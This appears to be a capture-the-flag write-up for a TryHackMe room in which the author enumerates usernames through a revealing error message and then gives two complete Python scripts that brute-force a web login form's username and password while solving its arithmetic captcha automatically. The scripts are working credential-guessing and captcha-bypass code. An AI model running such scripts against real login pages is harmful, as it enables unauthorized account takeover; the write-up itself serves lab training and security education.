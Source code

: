# Capture(TryHackMe)

Link to TryHackMe Room [https://tryhackme.com/room/capture](https://tryhackme.com/room/capture)

<img src="https://user-images.githubusercontent.com/25124463/236878216-64d5ac34-8a10-4814-9621-64c2c4af9306.png" width="600">




In this CTF room from TryHackMe I will be attempting to bypass a login form.&#x20;



### Enumeration&#x20;

After starting the machine and navigating to the login page this is what we are presented with. 

<img src="https://user-images.githubusercontent.com/25124463/236878987-fe6d22dd-2c2a-4113-ac5f-cd7bc0543316.png" width="600">


When entering the username ``admin`` and password ``admin`` as a test I see that I get an output at the bottom of the page saying:

**Error: The user 'admin' does not exist**

This means that we can brute force the login to find the username and observe for when the response does not contain the above error message indicating that username exists. 
We could do this on Burp Suite using the included username wordlist but the site has captcha in place after too many unsucessful login attempts.

<details>
<summary>Captcha</summary>

![captcha](https://user-images.githubusercontent.com/25124463/236881474-84571341-c715-4e2f-a9ab-dea7cb25b17c.png)
</details>

Since we now have to solve each captcha we must create a script to do this. I decided to use python to make my script. 

The username hacking script must do the following:
* Read each line of the ``usernames.txt`` file 
* Send the request with the login url and username/password payload. The password at this point is not important so we can give it a dummy value. Main goal is to find a valid username. 
* When captcha is found in the response we must solve it and include it in the request payload. 
* Loop through usernames and halt the script when a response returns html code that doesn't include ``Error: The user 'admin' does not exist``. 

My solution might not be the most elegant but it works to find the username lol
<details>
<summary>Code</summary>

```

import requests
import re

url = '' # replace with the URL of the login page

with open('usernames.txt', 'r') as uf:
    for username in uf:
        username = username.strip()
        
        payload = {
            "username" : username,
            "password" : "test_password"
        }

        response = requests.post(url, data=payload)

        if  "Invalid password for user"in response.text:
            print(f"Correct username: {username}")
            exit()
        else:
            # Solve CAPTCHA if present and send login request
            captcha_match = re.search(r'\d+\s*[-+/*]\s*\d+\s*=\s*\?',response.text)
            captcha_text = ''
            if captcha_match is not None:
                captcha_text = captcha_match.group(0).replace('=', '').strip()
                print("CAPTCHA text:", captcha_text)

                # Solve the CAPTCHA and include the solution in the payload
                match = re.search(r'(\d+)\s*([-+/*]?)\s*(\d+)', captcha_text)
                if match:
                    num1, operator, num2 = match.groups()
                    solution = eval(num1 + operator + num2)
                    print("Solution:", solution)
                    print(username)
                    payload['captcha'] = solution
                else:
                    print("Error: Failed to extract numbers and operator from CAPTCHA text")
                    continue
            
            # Send login request
            response = requests.post(url, data=payload)

            if "Invalid password for user" in response.text:
                print(f"Valid username: {username}")
                exit()



```
</details>

This will take about two minutes to finish. Correct username will be printed to the console. 

Next we have to take the correct username and create another script where we brute force to find the correct password.
In this script we must:
* Load the passwords from the password.txt file provided in the room. 
* Loop through all the passwords sending the username, password and captcha in the request payload. 
* if response returns the string "Too many bad login attempts" in the response text we know the password is unsuccessful so we can continue
* When the repsone text does not contain too many bad login attempts as a string we know that weve found the correct password 
* Print correct password and username to console and exit program. 

<details>
<summary>Code</summary>

```
import requests
import re

url = '' # replace with the URL of the login page

with open('passwords.txt', 'r') as pf:
        for password in pf:
            username = "" # The password you obtained from username script
            password = password.strip()
            
            payload = {
                "username" : username,
                "password" : password
            }


            response = requests.post(url, data=payload)
            
            # Send the GET request and extract the CAPTCHA string if present
            captcha_match = re.search(r'\d+\s*[-+/*]\s*\d+\s*=\s*\?',response.text)
            print(captcha_match)
            captcha_text = ''
            if captcha_match is not None:
                captcha_text = captcha_match.group(0).replace('=', '').strip()
                print("CAPTCHA text:", captcha_text)

                # Solve the CAPTCHA and include the solution in the payload
                # num1, operator, num2 = re.findall('\d+|\D+', captcha_text)
                match = re.search(r'(\d+)\s*([-+/*]?)\s*(\d+)', captcha_text)
                if match:
                    num1, operator, num2 = match.groups()
                    solution = eval(num1 + operator + num2)
                    print("Solution:", solution)
                    payload = {
                        'username': username,
                        'password': password,
                        'captcha': solution
                    }
                else:
                    print("Error: Failed to extract numbers and operator from CAPTCHA text")
                    payload = None
            else:
                print("No CAPTCHA found on the page")
                payload = {
                    'username': username,
                    'password': password
                }

            # Send the POST request with the payload if it is not None
            if payload is not None:
                response = requests.post(url, data=payload)
                if "Too many bad login attempts!" in response.text:
                    print(f"Attempted login with username as: {username} and password as: {password}")
                else:
                    print(f"The correct username is: {username} and password is: {password}")
                    exit()
            else:
                print("Empty payload, cannot send request")

```
</details>
At this point we can go to the browser using the username and password to obtain the flag to complete the room. Hope this helps someone. Happy hacking






![capture-completed](https://user-images.githubusercontent.com/25124463/236889555-c44067f1-4066-4135-8c5f-71bb841fa410.png)


**DISCLAIMER**
As an ethical hacker, I must emphasize that the following writeup is intended for educational purposes only. My goal as a "white hat" hacker is to identify and expose vulnerabilities in computer systems and networks in order to improve security. It's important to note that unauthorized hacking or accessing of systems without permission is illegal and can result in severe legal consequences. I strongly advise against using the information provided in this writeup for any illegal or unethical purposes. As the author and publisher of this content, I do not condone any illegal activities and I am not responsible for any actions taken by readers. It is your responsibility as a reader to use this information ethically and legally. Let's use our technical skills to make the digital world a safer place.




